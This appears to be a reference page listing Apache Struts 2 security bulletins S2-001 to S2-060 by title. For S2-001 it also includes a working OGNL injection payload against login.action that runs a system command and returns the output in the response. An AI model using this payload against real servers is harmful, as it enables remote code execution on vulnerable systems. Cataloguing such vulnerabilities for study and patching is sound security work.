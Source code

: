 S2-001 — Remote code exploit on form validation error
        path : login.action (post) 
        Affected : Xwork2 struts 2.0.0 ~ 2.0.8 
        payload : %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
    
S2-002 — Cross site scripting (XSS) vulnerability on <s:url> and <s:a> tags

S2-003 — XWork ParameterInterceptors bypass allows OGNL statement execution

S2-004 — Directory traversal vulnerability while serving static content

S2-005 — XWork ParameterInterceptors bypass allows remote command execution

S2-006 — Multiple Cross-Site Scripting (XSS) in XWork generated error pages

S2-007 — User input is evaluated as an OGNL expression when there's a conversion error

S2-008 — Multiple critical vulnerabilities in Struts2

S2-009 — ParameterInterceptor vulnerability allows remote command execution

S2-010 — When using Struts 2 token mechanism for CSRF protection, token check may be bypassed by misusing known session attributes

S2-011 — Long request parameter names might significantly promote the effectiveness of DOS attacks

S2-012 — Showcase app vulnerability allows remote command execution

S2-013 — A vulnerability, present in the includeParams attribute of the URL and Anchor Tag, allows remote command execution

S2-014 — A vulnerability introduced by forcing parameter inclusion in the URL and Anchor Tag allows remote command execution, session access and manipulation and XSS attacks

S2-015 — A vulnerability introduced by wildcard matching mechanism or double evaluation of OGNL Expression allows remote command execution.

S2-016 — A vulnerability introduced by manipulating parameters prefixed with "action:"/"redirect:"/"redirectAction:" allows remote command execution

S2-017 — A vulnerability introduced by manipulating parameters prefixed with "redirect:"/"redirectAction:" allows for open redirects

S2-018 — Broken Access Control Vulnerability in Apache Struts2

S2-019 — Dynamic Method Invocation disabled by default

S2-020 — Upgrade Commons FileUpload to version 1.3.1 (avoids DoS attacks) and adds 'class' to exclude params in ParametersInterceptor (avoid ClassLoader manipulation)

S2-021 — Improves excluded params in ParametersInterceptor and CookieInterceptor to avoid ClassLoader manipulation

S2-022 — Extends excluded params in CookieInterceptor to avoid manipulation of Struts' internals

S2-023 — Generated value of token can be predictable

S2-024 — Wrong excludeParams overrides those defined in DefaultExcludedPatternsChecker

S2-025 — Cross-Site Scripting Vulnerability in Debug Mode and in exposed JSP files

S2-026 — Special top object can be used to access Struts' internals

S2-027 — TextParseUtil.translateVariables does not filter malicious OGNL expressions

S2-028 — Use of a JRE with broken URLDecoder implementation may lead to XSS vulnerability in Struts 2 based web applications.

S2-029 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution.

S2-030 — Possible XSS vulnerability in I18NInterceptor

S2-031 — XSLTResult can be used to parse arbitrary stylesheet

S2-032 — Remote Code Execution can be performed via method: prefix when Dynamic Method Invocation is enabled.

S2-033 — Remote Code Execution can be performed when using REST Plugin with ! operator when Dynamic Method Invocation is enabled.

S2-034 — OGNL cache poisoning can lead to DoS vulnerability

S2-035 — Action name clean up is error prone

S2-036 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution (similar to S2-029)

S2-037 — Remote Code Execution can be performed when using REST Plugin.

S2-038 — It is possible to bypass token validation and perform a CSRF attack

S2-039 — Getter as action method leads to security bypass

S2-040 — Input validation bypass using existing default action method.

S2-041 — Possible DoS attack when using URLValidator

S2-042 — Possible path traversal in the Convention plugin

S2-043 — Using the Config Browser plugin in production

S2-044 — Possible DoS attack when using URLValidator

S2-045 — Possible Remote Code Execution when performing file upload based on Jakarta Multipart parser.

S2-046 — Possible RCE when performing file upload based on Jakarta Multipart parser (similar to S2-045)

S2-047 — Possible DoS attack when using URLValidator (similar to S2-044)

S2-048 — Possible RCE in the Struts Showcase app in the Struts 1 plugin example in Struts 2.3.x series

S2-049 — A DoS attack is available for Spring secured actions

S2-050 — A regular expression Denial of Service when using URLValidator (similar to S2-044 & S2-047)

S2-051 — A remote attacker may create a DoS attack by sending crafted xml request when using the Struts REST plugin

S2-052 — Possible Remote Code Execution attack when using the Struts REST plugin with XStream handler to handle XML payloads

S2-053 — A possible Remote Code Execution attack when using an unintentional expression in Freemarker tag instead of string literals

S2-054 — A crafted JSON request can be used to perform a DoS attack when using the Struts REST plugin

S2-055 — A RCE vulnerability in the Jackson JSON library

S2-056 — A crafted XML request can be used to perform a DoS attack when using the Struts REST plugin

S2-057 — Possible Remote Code Execution when alwaysSelectFullNamespace is true (either by user or a plugin like Convention Plugin) and then: results are used with no namespace and in same time, its upper package have no or wildcard namespace and similar to results, same possibility when using url tag which doesn’t have value and action set and in same time, its upper package have no or wildcard namespace.

S2-058 — Previous Security Bulletins contained incorrect affected release version ranges.

S2-059 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution.

S2-060 — Access permission override causing a Denial of Service when performing a file upload
